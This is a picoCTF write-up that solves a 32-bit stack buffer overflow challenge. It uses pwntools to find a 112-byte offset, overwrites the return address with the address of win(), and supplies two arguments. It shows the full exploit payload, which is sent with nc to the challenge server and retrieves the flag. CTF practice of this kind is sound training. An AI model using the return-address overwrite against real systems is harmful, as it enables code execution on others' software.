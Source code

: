 # URL
https://play.picoctf.org/practice/challenge/259?category=6&page=2

# Challenge
Author: Sanjay C / Palash Oswal

Description
Control the return address and arguments
Additional details will be available after launching your challenge instance.

# Work:
* To start us off, let's create a pattern

```
from pwn import *
# Generate a cyclic pattern of 200 bytes
pattern = cyclic(200)
print(pattern)
>>> print(cyclic(200))
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/ab68d565-c115-40ee-8ce4-99b3ff61a1e3" />
* EIP = return address and we can see that's being overrun @ address = 0x62616164

```
>>> from pwn import *
>>> print(cyclic_find(0x62616164))
112 
```
* 112 = our offset
```
pwndbg> print &win
$1 = (<text variable, no debug info> *) 0x8049296 <win> 
```
* Knowing the address of win = 0x8049296
```
python3
>>> 'A'*112
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
>>> p32(0x8049296)
b'\x96\x92\x04\x08'
>>> print(cyclic(200))
```

* Submit this payload:

```
pwngdb> r <<< $echo("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08")
```
<img width="1863" height="753" alt="image" src="https://github.com/user-attachments/assets/8457c79f-e596-4ca2-a64f-23dd69d89f4b" />
* So the command above worked since we are in the win() function now
* Now all we gotta do is pad 4 bytes and add the two arguments
<img width="362" height="185" alt="image" src="https://github.com/user-attachments/assets/2dfec480-3012-45c5-87f1-c19af6956796" />
* We NEED these arguments or else the function won't continue
* The 4 bytes are dummy bytes, those 4 bytes are the saved return address; however, we don't want to return, instead we want to continue forward

```
+--------------------+
|  return address    |  <-- saved EIP (4 bytes)   ← this is where QQQQ goes
+--------------------+
|  arg1              |  <-- first argument
+--------------------+
|  arg2              |  <-- second argument
+--------------------+
```

* 4 bytes = QQQQ
```
>>> p32(0xCAFEF00D)
b'\r\xf0\xfe\xca'
```
```
>>> p32(0xF00DF00D)
b'\r\xf0\r\xf0'
```

```
┌──(kali㉿kali)-[~/picoCTF/binaryexploitation]
└─$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08QQQQ\x0d\xf0\xfe\xca\x0d\xf0\x0d\xf0'" | nc saturn.picoctf.net 64366
Please enter your string: 
�'�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�QQQQ
picoCTF{argum3nt5_4_d4yZ_59cd5643}       
```
* WOOHOOOOOOOOOOO WE FOUND THE FLAG!!!!
  

